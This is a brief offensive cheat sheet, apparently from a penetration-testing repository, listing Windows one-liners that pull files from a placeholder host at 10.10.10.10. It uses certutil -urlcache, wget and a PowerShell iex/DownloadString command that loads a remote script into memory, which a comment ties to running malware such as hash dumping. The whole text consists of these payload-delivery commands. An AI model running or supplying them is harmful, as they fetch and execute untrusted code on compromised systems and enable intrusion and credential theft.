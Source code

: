 # Command line
cmd.exe /C certutil  -split -urlcache -f http://10.10.10.10/exe.LOL c:\Users\Admin\Desktop\exe.lol
# Utilities
certutil -urlcache -f http://10.10.10.10/lol.exe lol.exe
# Command Line 
wget http://10.10.10.10/lol.exe -outfile lol.exe
# loaded into memory can then run commands from malware ie get-hash
iex (New-Object Net.webclient).downloadstring('http://10.10.10.10/lol.ps1')
